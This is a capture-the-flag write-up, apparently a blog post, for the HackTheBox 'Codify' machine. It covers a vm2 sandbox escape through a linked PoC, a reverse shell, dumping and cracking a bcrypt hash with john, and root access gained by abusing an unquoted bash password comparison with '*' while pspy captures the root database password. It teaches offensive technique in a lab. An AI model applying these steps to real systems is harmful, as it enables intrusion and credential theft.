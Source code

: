 ```yaml
---
layout: post
title: HTB-Codify
published: true
---
```


# Codify machine on [hackthebox](https://app.hackthebox.com)


### Enumeration

Let's start with nmap scan:
```bash
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Seeing the result we see we have ssh, and two web servers, to save your time, the two are completely identical, so let's start going to the website and see what do we have:

![](../assets/images/codify/20240406210502.png)
So we see a website that we can use to test our JS code, but of course with limitations (for obvious reasons :D).
We use `require('fs').ReadFile('/etc/passwd')` trying to read a file, but we fail, so let's explore what else could be there. 
![](../assets/images/codify/20240406210840.png)

And we get this in the `about` page:
![](../assets/images/codify/20240406211207.png)
We are interested in this part, it shows what they are using for sand-boxing this editor
```
The [vm2](https://github.com/patriksimek/vm2/releases/tag/3.9.16) library is a widely used and trusted tool for sandboxing JavaScript. It adds an extra layer of security to prevent potentially harmful code from causing harm to your system. We take the security and reliability of our platform seriously, and we use vm2 to ensure a safe testing environment for your code.
```
The vm2 is a discontinued project, so going into the github repo [here](https://github.com/patriksimek/vm2/releases/tag/3.9.16), will show us a lot of vulnerabilities.

### Exploitation


One of them ([this one](https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac)), even has a PoC in it that we can use to issue commands on the system and escape the sandbox.
![](../assets/images/codify/20240406211639.png)
And it worked! we managed to execute `whoami;id`, so let's get a reverse shell.
And we get a shell as `svc` on the box, let's start enumerating

Going into `/var/www/` we can see the folder for this website (editor), and another one called "contact", which also have a Database file, so let's examine it.

It is a sqlite3 database, so let's dump it using:
```bash
sqlite3 tickets.db .dump
```
And we get the following:
```bash
<SNIP>
VALUES(3,'joshua','$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2');
CREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT);
<SNIP>
```
We get a hash! Let's take it and crack it locally using john.

```bash
echo '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' >> joshua.hash

john --wordlist=/opt/wordlists/rockyou.txt joshua.txt
```
And we got the password!
```bash
john --show joshua.hash

?:sp<REDACTED>ob1

1 password hash cracked, 0 left
```
So now is the time for root...

### PE

Doing `sudo -l`, we see we can execute a script:
```bash
User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```
Taking a look at it, it's doing some stuff related to the database in there, and here is the interesting snippet:

```bash
<SNIP>

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
<SNIP>

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

<SNIP>
```
If we get authenticated, it will issue a command which will use the root password for the database, but how do we get authenticated?

Well staring enough in the above code, we can notice some sort of wildcard abuse chance, see the comparison here is missing because the `$USER_PASS` is not warped in quotes, so what if we inserted `*` ? 
```bash
Enter MySQL password for root: 
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
```
We get Password confirmed! so let's try to authenticate to this and also monitor processes using `pspy64` and maybe we can look at the command and get the password.
After running the script, and running pspy too, we wait a bit and see the following:
```bash
<SNIP> 
2024/04/06 18:47:00 CMD: UID=0     PID=21846  | /bin/bash /opt/scripts/mysql-backup.sh 
2024/04/06 18:47:00 CMD: UID=0     PID=21848  | /bin/bash /opt/scripts/mysql-backup.sh 
2024/04/06 18:47:00 CMD: UID=0     PID=21847  | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh<REDACTED>2kjh3 mysql 
2024/04/06 18:47:01 CMD: UID=0     PID=21849  | 
<SNIP>
```

So trying this password for the root user:
```bash
joshua@codify:/opt/scripts$ su -
Password: 
root@codify:~# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
root@codify:~# 

```
It works!

And the box is done! Thanks for reading!

Happy hacking :)

